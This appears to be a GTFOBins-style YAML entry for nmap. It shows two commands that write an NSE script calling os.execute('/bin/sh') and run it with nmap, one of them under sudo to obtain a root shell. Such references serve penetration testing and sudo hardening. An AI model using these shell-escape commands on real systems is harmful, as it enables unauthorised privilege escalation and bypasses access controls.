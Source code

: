 ```yaml
---
functions:
  execute-non-interactive:
    - code: echo "os.execute('/bin/sh')" > /tmp/script.nse
            nmap --script=/tmp/script.nse
  sudo-enabled:
    - code: echo "os.execute('/bin/sh')" > /tmp/script.nse
            sudo nmap --script=/tmp/script.nse
---
```

